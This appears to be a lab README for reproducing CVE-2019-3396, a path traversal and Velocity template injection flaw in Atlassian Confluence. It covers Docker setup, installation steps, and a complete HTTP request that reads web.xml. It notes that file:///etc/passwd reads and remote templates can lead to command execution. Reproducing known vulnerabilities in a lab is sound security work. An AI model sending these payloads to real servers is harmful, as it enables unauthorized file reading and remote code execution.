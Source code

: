 # Atlassian Confluence Path Traversal and Command Execution Vulnerability (CVE-2019-3396)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

An unauthorized directory traversal vulnerability exists before version 6.14.2 of Atlassian Confluence, which an attacker can read arbitrary files or execute arbitrary commands using Velocity template injection.

Reference:

- https://paper.seebug.org/884/
- https://jira.atlassian.com/browse/CONFSERVER-57974

## Vulnerability Environment

Start a Confluence Server 6.10.2 by executing the following command.

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian:

![](1.png)

Then just click Next to install. This step of small memory VPS may fail to install or take a long time (it is recommended to use a machine with more than 4G memory for installation and testing), please wait patiently.

If prompted to fill in the cluster node, the path can be filled in with `/home/confluence`.

![](4.png)

You may be asked to fill in the database account password, choose the postgres database, the address is `db`, the account password is `postgres`:

![](5.png)

## Exploit

The file `web.xml` can be read by sending the following packet.

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```

![](6.png)

Confluence before 6.12 did not restrict the protocol and path for file reading, we can use `file:///etc/passwd` to read files, or `https://...` to load remote files.

If the file is a Velocity template, and we can execute arbitrary commands via template injection (SSTI):

![](7.png)
